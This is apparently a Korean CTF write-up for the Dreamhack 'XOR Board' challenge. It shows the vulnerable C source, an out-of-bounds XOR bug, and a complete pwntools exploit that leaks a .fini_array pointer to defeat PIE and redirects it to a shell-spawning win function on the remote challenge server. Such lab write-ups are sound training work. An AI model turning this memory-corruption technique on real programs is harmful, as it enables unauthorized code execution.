









# [Dreamhack.io] XOR Board Write-Up

* **Platform:** Dreamhack
* **Date:** 2026-09-06 (solved) / 2026-09-06 (written)
* **Difficulty:** Medium
---

# 01. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 개요**
> - **목표:** `win` 함수 실행
> - **제공 파일**:
> ```text
> ┌──── Dockerfile
> ├──── main.c
> └──── deploy/
>     ├──── flag
>     └──── main
> ```
> - **보호 기법:**
> ```text
> Arch:       amd64-64-little
> RELRO:      No RELRO
> Stack:      Canary found
> NX:         NX enabled
> PIE:        PIE enabled
> SHSTK:      Enabled
> IBT:        Enabled
> Stripped:   No
> ```

> `No RELRO`인 걸 보면 바이너리가 실행될 때, GOT 테이블에 모든 함수 정보가 저장된다는 것을 알 수 있다.

---

# 02. Vulnerability Analysis (바이너리 분석)

## 소스 코드 / 디컴파일 분석

다음은 `main.c` 파일의 내용이다.

```c
// gcc -o main main.c -Wl,-z,norelro

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>

uint64_t arr[64] = {0};

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    for (int i = 0; i < 64; i++)
        arr[i] = 1ul << i;
}

void print_menu() {
    puts("1. XOR two values");
    puts("2. Print one value");
    printf("> ");
}

void xor() {
    int32_t i, j;
    printf("Enter i & j > ");
    scanf("%d%d", &i, &j);
    arr[i] ^= arr[j];
}

void print() {
    uint32_t i;
    printf("Enter i > ");
    scanf("%d", &i);
    printf("Value: %lx\n", arr[i]);
}

void win() {
    system("/bin/sh");
}

int main() {
    int option, i, j;

    initialize();
    while (1) {
        print_menu();
        scanf("%d", &option);
        if (option == 1) {
            xor();
        } else if (option == 2) {
            print();
        } else {
            break;
        }
    }

    return 0;
}
```

프로그램 흐름은 간단하다.

- `initialize()`에서 표준 입출력 버퍼를 `_IONBF`로 설정하고, 전역 변수인 `arr[64]`의 각 element를 설정한다.
	- `arr[64]`의 각 element은 `uint64_t`형이므로, `64비트 1`을 인덱스만큼 `<<`된 값이 각각 저장된다.
- `main()`에서 무한 루프를 돌며 다음을 반복한다.
	- 1번 옵션: `xor()` 함수를 실행하여, 두 값을 입력받고, xor 연산을 수행한다.
	- 2번 옵션: `print()` 함수를 실행하여, 인덱스를 입력받고, 해당 값을 출력한다.
	- 그 외 값은 무한 루프를 종료한다.

</br>
## Exploit Primitive

1. **`xor()` 함수에서 `int32_t`형 값을 두 개 입력 받는다. 또한 입력값에 대한 검증이 없다.**
	- 따라서 64 이상의 수 혹은 음수 값을 통해 `arr` 변수가 아닌 다른 영역에 대해 xor 연산을 수행할 수 있다. (OOB 발생)

2. **`print()` 함수에서 `uint32_t`형 값을 입력 받는다. 또한 입력값에 대한 검증이 없다.**
	- 따라서 64 이상의 수를 입력하여 `arr` 변수가 아닌 다른 영역의 값을 출력할 수 있다.
	- 하지만, 음수를 `unsigned` 값으로 처리하기 때문에, `arr` 변수보다 낮은 메모리 영역에 접근할 수는 없다.

</br>
## Exploit Scenario

위의 두 Exploit Primitive를 통해 생각해 본 시나리오는 다음과 같다.

- `No RELRO`이므로 바이너리가 실행될 때, `.got` 섹션에 모든 주소가 기록되어 있다.
- 이들 중, `main` 함수를 호출했던 `__libc_start_main`의 got 주소를 `win` 함수로 바꾸면, `main` 함수가 종료되었을 때 `win` 함수가 실행될 것이다.
- `arr[64]` 변수를 통해 `__libc_start_main`의 got 주소에서 `win` 함수 주소와 다른 비트를
  `xor( [__libc_start_main@got을 접근하기 위한 오프셋], [win 함수 주소와 다른 비트를 바꾸기 위한 arr 변수 인덱스] )` 호출을 통해 바꿀 수 있을 것이다.

---

# 03. Trial & Error (삽질 및 실패 기록)

> [!CAUTION]
> ⚠️ **Attempt 01: `No RELRO`이므로, GOT 테이블의 값에 접근해서 값을 Leak 하자.**
> - **가설:** `No RELRO`는 바이너리가 실행될 때, GOT 테이블에 모든 함수 주소가 저장되어 있다. 이를 이용해 라이브러리 함수 주소를 Leak 한다.
> - **결과:** `print()`를 통해 GOT 테이블에 접근할 수 없음
> - **원인 및 분석:**
> 	- 아래 사진과 같이, 바이너리 내 `.got` 섹션은 `arr` 변수가 저장된 `.data`보다 낮은 메모리에 위치해있다. `print()`는 부호 없는 값으로 메모리에 접근하므로, 우리는 `print()` 함수를 통해서 `.got` 섹션으로 바로 접근할 수 없다.
> 
> 
> 

> 💡 두 함수들 중 음수를 통해 메모리를 접근할 수 있는 건 `xor()`뿐이다. 그러면 결국 해당 함수를 이용해 주소를 구해야 한다는 걸 알 수 있다.
> `xor()` 함수는 `arr[i] ^= arr[j]`를 해서 바꿀 수 있는데, 0으로 설정된 어느 메모리와 got 테이블 주소를 xor 연산한 뒤, `print()`를 통해 접근할 수 있을 것이다.
> 
> ex) `xor(64, 64)`를 통해 `arr[64]`를 0으로 설정한다. 현재 바이너리에서 `__libc_start_main@got`는 `arr[-0xD]`와 동일하다.
> 그 다음, `xor(64, -0xD)`를 통해 `arr[64] ^= arr[-0xD]`를 하면, `arr[64]`에는 `__libc_start_main@got` 주소가 저장된다. 양수 인덱스이기 때문에 `print(64)`를 통해서 이 값을 출력할 수 있다.


</br>
## Exploit을 할 때 생긴 Obstacle

> ⚠️ **Obstacle: `win` 함수 주소는 어떻게 구하지?**

바이너리에는 PIE와 ASLR이 적용되어 있다. ASLR을 통해 스택, 힙, 동적 라이브러리 등의 영역이 랜덤화되고, PIE 옵션을 통해 코드, 데이터 등 영역이 상대 주소로 접근을 하게 된다.
 
그러면 `.text` 영역에 저장된 `win` 함수 주소 역시 상대 주소인 오프셋을 통해 접근을 한다는 건데... PIE의 Base Address를 어떻게 알아낼 수 있는지가 문제이다.

다음과 같이 생각을 해보았다.
 
 - 우리가 위에서 `__libc_start_main@got`의 주소를 알아낼 수 있으니, 이 주소와 PIE Base 간의 오프셋을 구해봐야 되는가?
   => 이건 모든 실행에 정답을 보장할 수 없다. (동적 라이브러리 베이스와 코드 영역의 베이스 주소는 서로 다르게 랜덤화될테니까)
 - 그냥 `__libc_start_main@got`를 통해 라이브러리의 베이스 주소를 알고 있으니, 이걸 통해 `win` 함수로 이동하는 게 아닌 `system("/bin/sh")`을 바로 실행?
   => `main`, `xor`, `print` 함수에서 `RET` 주소를 건들일 수 있는 Primitive가 없다.

여러 자료를 검색하면서 로컬 환경에서 바이너리의 베이스 주소를 알아낼 수 있는 pwntools의 함수를 알게 되었다. 아래 소스 코드를 통해 `__libc_start_main@got` 주소를 변경한 모습이다.

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

p = process('./main')
e = ELF('./main')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

def xor(i, j):
    p.sendlineafter(b'\n> ', b'1')

    p.sendlineafter(b'Enter i & j > ', str(i).encode() + b' ' + str(j).encode())

def pri(idx):
    p.sendlineafter(b'\n> ', b'2')

    p.sendlineafter(b'Enter i > ', str(idx).encode())

# base address
base_addr = p.libs()[e.path]

slog("base address", base_addr)

win = base_addr + e.symbols['win']

# make arr[64] to 0
xor(64, 64)

# make arr[64] = __libc_start_main
xor(64, -13)

# print arr[64]
pri(64)

p.recvuntil(b'Value: ')
libc_start_main = int(p.recvuntil(b'\n', drop=True), 16)

slog('libc_start_main', libc_start_main)

# make __libc_start_main to win
target_bin = bin(win - 128)[2:].zfill(64)          # main returns to __libc_start_main + 128
libc_bin = bin(libc_start_main)[2:].zfill(64)

for i in range(64):
    if target_bin[i] != libc_bin[i]:
        xor(-13, 63 - i)

gdb.attach(p)
pause()

p.interactive()
```



각 비트들을 비교하여 다른 비트들을 xor 연산한 이후 확인한 모습이다.

`__libc_start_main@got` 주소가 `win - 128`로 설정되어 있으며, `해당 주소 + 128`에 있는 명령어는 정상적으로 `win` 함수의 명령어임을 확인했다.



위 사진은 그 이후, 1과 2가 아닌 값을 입력하여 `main` 함수를 종료한 뒤의 모습이다. 내 생각이 맞았다면, 결국 `__libc_start_main + 128`, 즉 `win` 함수로 이동을 해야 할텐데 그렇지 않았고, 또한 `SIGSEGV` 에러도 아닌 `exit code 0`로 정상적으로 종료된 모습을 볼 수 있었다.

그러면 `main` 함수가 종료된 이후 `__libc_start_main`으로 되돌아가지 않는 건가? 라는 의문이 들었고, `main` 함수의 마지막에 브레이크 포인트를 걸어서 그 이후 과정을 쭉 진행해보았다.



위 사진에서 어셈블리 명령어 부분을 보면, `main` 함수가 리턴이 된 이후, `return 0`로 전달한 0이라는 인자를 `edi`에 넣은 뒤, `exit` 함수를 호출하는 걸 볼 수 있다.

결국, `main` 함수가 종료된 이후에는 `exit(0)`가 호출이 되어 `__libc_start_main`으로 돌아가지 않고 바이너리가 종료된다는 점이었다.

> 아... 그러면 결국 `exit()`으로 진행되는 과정 중 하나의 함수를 `win` 함수로 바꿔야 되는 거구나

그러면 `exit` 함수는 어떻게 진행이 될까? 이에 대해서는 `리눅스 ELF 파일의 종료 과정`에 대한 인터넷 자료를 참고하였다.

### `.fini_array` 섹션

`.fini_array` 섹션은 바이너리가 종료될 때 수행되는 함수들의 주소를 모아놓은 섹션이다.

`main` 함수가 종료되어 `exit(0)`가 호출된 이후 `.fini_array` 섹션에 저장된 함수들이 실행이 된다.



기드라를 통해 주어진 바이너리의 `.fini_array`에 어떤 함수가 적혀있는지 확인한 결과, `__do_global_dtors_aux` 함수만 적혀 있는 걸 확인하였다.

이후, gdb를 통해 다시 해당 함수에 브레이크 포인트를 걸고 메인 함수를 종료하면 다음과 같이 `exit` 과정 중 `__do_global_dtors_aux` 함수가 호출되는 걸 확인할 수 있다. `on_exit`은 `exit` 함수가 종료된 이후 다시 그 다음으로 호출되는 함수이다.



`__do_global_dtors_aux` 또한 `.text` 영역에 저장된 함수이다. 따라서 우리는 이 함수의 주소만 알 수 있다면 `.text` 영역의 베이스 주소를 알게 되고, `win` 함수의 주소도 알 수 있게 될 것이다.

---

# 04. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ✏️ **페이로드 구성**
> - `.fini_array` 섹션과 `arr` 변수 사이의 거리를 구하고, `arr` 변수보다 높은 메모리 영역들 중 한 곳에 `.fini_array` 섹션의 값을 넣는다.
> - `print()`를 통해 `__do_global_dtors_aux` 함수의 주소를 얻고 `win` 함수의 주소를 알아낸다.
> - `__do_global_dtors_aux` 함수 주소에서 `win` 함수의 주소와 다른 비트를 1과 xor하여 `__do_global_dtors_aux` 주소를 `win` 주소로 바꾼다.
> - `main` 함수를 종료하여 `__do_global_dtors_aux` 함수를 호출한다.



pwndbg에서 `info file` 명령을 통해 구한 `.fini_array`의 시작 주소는 0x555555557218이다.



동일한 pid의 바이너리에서 `arr` 변수의 주소는 0x5555555574c0이다. 두 사이 거리는 0x2A8이며, `arr` 변수를 통해 접근하기 위해서는 `arr[-85]`를 이용할 수 있다.

그러면 다음과 같은 시나리오가 생긴다.

- `xor(64, 64)`를 통해 `arr[64]`의 값을 0으로 설정한다. (`arr[0] ~ arr[63]`은 이후 주소를 변경할 때 필요하므로, 그 외의 영역을 바꿔주었다.)
- `xor(64, -85)`를 통해 `arr[64]`에 `__do_global_dtors_aux` 함수 주소로 설정한다.
- `print(64)`를 통해 `__do_global_dtors_aux` 함수 주소를 알아내고 `win` 함수 주소를 알아낸다.
- 두 주소를 비교하여 `__do_global_dtors_aux` 함수 주소를 `win` 함수 주소로 변경한다.

---

# 05. Exploit Code (최종 익스플로잇 코드)

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

# p = process('./main')
p = remote('host3.dreamhack.games', 24276)
e = ELF('./main')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

def xor(i, j):
    p.sendlineafter(b'\n> ', b'1')

    p.sendlineafter(b'Enter i & j > ', str(i).encode() + b' ' + str(j).encode())

def pri(idx):
    p.sendlineafter(b'\n> ', b'2')

    p.sendlineafter(b'Enter i > ', str(idx).encode())

# make (uint64_t) 0 in arr[65]
xor(65, 65)

# make arr[65] contain .fini_array section's first 8 bytes (same to address of __do_global_dtors_aux function address)
xor(65, -85)

# print arr[65] to leak .fini_array section's first 8 bytes
pri(65)

# leak __do_global_dtors_aux address
p.recvuntil(b'Value: ')
fini_addr = int(p.recvuntil(b'\n', drop=True), 16)

'''
====== [ Print Result ] ======
'''
success("SUCCESS leak fini_array section")
slog("fini_array section", fini_addr)

pie_base = fini_addr - e.symbols['__do_global_dtors_aux']
slog("PIE base address", pie_base)

win = pie_base + e.symbols['win']

# make __do_global_dtors_aux to win address
fini_bin = bin(fini_addr)[2:].zfill(64)
win_bin = bin(win)[2:].zfill(64)

for i in range(64):
    if fini_bin[i] != win_bin[i]:
        xor(-85, 63-i)

p.sendlineafter(b'\n> ', b'3')

p.interactive()
```

원격에서 실행한 결과이다.



---

# 06. 배운 점 & 오답 노트

- **새로 배운 점:**
	- `.fini_array`: `main` 함수가 리턴되어 종료될 때 실행되는 함수들의 주소를 저장하는 영역
- **더 알아볼 내용:**
	- 리눅스 ELF 파일의 실행과 종료 과정: 커널 영역에서 어떻게 `main` 함수가 호출이 되고, `main` 함수가 종료된 이후에는 어떤 방식으로 종료되는지